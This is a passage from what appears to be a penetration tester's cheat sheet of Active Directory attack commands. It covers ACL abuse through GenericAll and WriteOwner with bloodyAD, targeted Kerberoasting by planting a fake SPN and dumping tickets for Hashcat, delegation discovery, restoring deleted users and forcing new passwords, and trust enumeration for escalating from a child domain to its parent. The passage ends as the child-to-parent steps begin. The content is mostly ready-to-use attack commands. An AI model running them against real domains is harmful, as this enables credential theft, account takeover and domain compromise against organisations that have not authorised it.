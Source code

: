   ```powershell
- Over Object (user, group..) → Gives GenericAll / GenericWrite
  ```bash
	  bloodyAD --host [DC FQDN] [AUTH_STRING] add genericAll '[TARGET]' [YOUR_USER]
	```

#### WriteOwner
```bash
bloodyAD --host [DC_FQDN] [AUTH_STRING] set owner "[OBJECT_DN]" "[USER]"
```
#### WriteSPN
- From Linux
	```bash
	cd ~/TOOLS/targetedKerberoast
	targetedKerberoast.py -u 'user' -p 'pwd' --dc-ip [DCIP] -f hashcat -d [DOMAIN]
	```
- From Windows (Powerview)
  ```powershell
  Set-DomainObject -Identity [TARGET] -SET @{serviceprincipalname='fake/pwned'}
  Get-DomainUser [TARGET] -SPN | Get-DomainSPNTicket -Format Hashcat
	```
## DELEG Abuse
```bash
nxc ldap [DC_IP] [AUTH_STRING] --find-delegation
```
If NXC finds something, just research the name of the finding

## Deleted Objects
Tombstone -> container object in AD that holds deleted objects.

1. Check if there are some deleted users:
   ```powershell
   Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects
	```
2. Restore the user with `Password123!` as password (from the bottom for the most recent deletion):
   ```powershell
	Restore-ADObject -Identity [ObjectGUID]
	Get-ADUser -Identity "[USER]"
	# If you can change their password
	Set-ADAccountPassword -Identity "[USER]" -NewPassword (ConvertTo-SecureString "Password123!" -AsPlainText -Force)	
	```
## Trust Escalation (domain admin)

Enumerate child-parent and cross-forest trusts:
- From Linux
	- `netexec`
		```bash
		nxc ldap [DC_IP] -u 'user' -p 'pwd' --dc-list
		```
	- Bloodhound: Analysis -> Map domain trusts
- From Windows
	- Enumerate trusts 
		```cmd
		netdom query /domain:[CURRENT_FOREST] trust
		```
		- The [CURRENT_FOREST] is the last two pieces of your domain
	-  Look for <-> Bidirectional trusts (only those are exploitable))
	 - Get the domain controller of the forest
		```cmd
		netdom query /domain:[CURRENT_FOREST] dc
		```

### Child -> Parent
1. `addhost [PARENT_DC_IP] "[PARENT_DC_FQDN] [PARENT_DOMAIN]"`
   ```